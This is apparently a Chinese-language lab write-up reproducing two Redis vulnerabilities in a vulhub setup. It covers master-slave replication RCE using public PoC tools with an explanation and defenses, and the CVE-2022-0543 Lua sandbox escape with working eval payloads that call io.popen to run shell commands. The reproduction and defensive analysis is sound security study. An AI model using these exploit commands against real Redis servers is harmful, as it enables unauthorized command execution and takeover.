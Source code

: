 # Redis主从复制漏洞复现

### 复现准备

- 镜像拉取,去github下载官方的vulhub到本地

```bash
cd vulhub/redis/4-unacc/
docker-compose up -d
```

<img src="./assets/image-20241021225940262.png" alt="image-20241021225940262" style="zoom: 50%;" />

- 靶机:`192.168.2.254:6379`
- 攻击机:`192.168.2.52`
- 在进行复现前确保`靶机6379`端口正常开启,并且能进行相互通信

### 获取poc

```bash
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/redis-rogue-server
```

- 放在同一文件夹

<img src="./assets/image-20241022001115963.png" alt="image-20241022001115963" style="zoom:33%;" />

### 获取权限

```cmd
python redis-rce.py -r 192.168.2.254 -L 192.168.2.52 -f exp.so
```

![image-20241022001250129](./assets/image-20241022001250129.png)

### 原理剖析

Redis 主从复制漏洞利用的核心原理基于 Redis 主从复制机制中的不安全配置。攻击者可以利用这一机制，通过伪造恶意的主服务器（Master），向从服务器（Slave）注入恶意数据或命令，进而执行命令或获得系统控制权。

#### Redis 主从复制机制简介
在 Redis 的主从复制（Master-Slave Replication）架构中，主服务器（Master）负责处理写操作，并将数据同步给从服务器（Slave）。从服务器可以是多个，负责接收主服务器的数据，进行读取操作。

复制流程的基本步骤如下：
1. **建立连接**：从服务器主动连接到主服务器，并请求同步数据。
2. **同步数据**：主服务器将当前内存中的数据发给从服务器进行全量同步。
3. **持续同步**：主服务器将后续的写操作日志实时发送给从服务器，使数据保持一致。

#### 漏洞原理
漏洞的产生源自 Redis 对主从复制过程中某些安全问题缺乏足够的保护措施，尤其在以下场景中：
- Redis 允许未认证的主服务器与从服务器之间建立通信连接。
- 主从通信过程中传输的数据没有进行严格的校验。

攻击者可以利用此漏洞的过程如下：
1. **伪造主服务器**：攻击者通过网络劫持或其它手段，将目标从服务器连接到其控制的恶意主服务器。
2. **发送恶意数据**：当从服务器与伪造的主服务器建立连接后，攻击者伪造的主服务器可以发送恶意命令或数据，这些数据会被 Redis 作为合法的数据进行解析。
3. **写入恶意文件**：攻击者可以通过利用 Redis 的持久化机制（如 RDB 快照或 AOF 持久化日志），向系统中写入恶意文件。例如，通过 Redis 写入 WebShell 到服务器的某个路径，或者修改关键系统文件。

#### 具体攻击步骤
1. **配置从服务器**：攻击者需要找到目标 Redis 服务器，并确保其配置了从服务器功能，且可以连接到主服务器。
2. **伪造主服务器**：攻击者在其控制的服务器上运行一个伪造的 Redis 主服务器。
3. **发送恶意数据**：在主从复制同步的过程中，攻击者向从服务器发送恶意的数据或命令，可能包括：
   - 修改 Redis 的配置，例如将某个路径配置为数据持久化的目录。
   - 通过持久化文件写入 WebShell 或 SSH 密钥，获得服务器的远程访问权限。
4. **远程控制**：攻击者可以利用写入的恶意文件，通过 WebShell 或 SSH 等方式控制目标服务器。

#### 漏洞利用条件
- Redis 从服务器可以访问外部网络，并可以与攻击者控制的伪造主服务器建立连接。
- Redis 主从复制功能开启，并且没有安全认证或 ACL（访问控制列表）保护。

#### 防御措施
1. **启用安全认证**：为 Redis 配置主从复制时，确保主服务器和从服务器之间有认证机制，以防止伪造的主服务器连接。
2. **限制网络访问**：将 Redis 的服务绑定到本地地址或通过防火墙限制外部网络的访问，避免未授权用户与 Redis 服务器通信。
3. **使用防火墙和访问控制**：通过防火墙或安全组限制 Redis 服务器的外部访问，确保只有可信主机可以访问 Redis 服务。
4. **禁用危险功能**：如果不需要持久化功能，可以禁用持久化机制，减少攻击面。
5. **升级到最新版本**：及时更新 Redis，使用最新版本可以避免已知的漏洞风险。

通过这些安全措施，可以大大降低 Redis 主从复制漏洞被攻击者利用的风险。

********

# Redis沙箱逃逸

> CVE-2022-0543



- `2.2<=redis<6.25`
- 需要知道`package.loadlib`的路径
- 利用`luaopen_io`函数

### 复现准备

- 攻击机:`192.168.2.14`
- 靶机:`192.168.2.254`
- 拉取镜像(靶机)

![image-20241022002549409](./assets/image-20241022002549409.png)

- 攻击机环境准备

```bash
wget http://download.redis.io/redis-stable.tar.gz
```

![image-20241022002824071](./assets/image-20241022002824071.png)

- 解压

```
tar -zxvf redis-stable.tar.gz
```

- 编译安装包(大约3分钟)

![image-20241022003017534](./assets/image-20241022003017534.png)

### 连接服务器

```bash
edis-cli -h 192.168.2.254 -p 6379

//payload
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls /etc/", "r"); local res = f:read("*a"); f:close(); return res' 0

或

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![image-20241022004832006](./assets/image-20241022004832006.png)

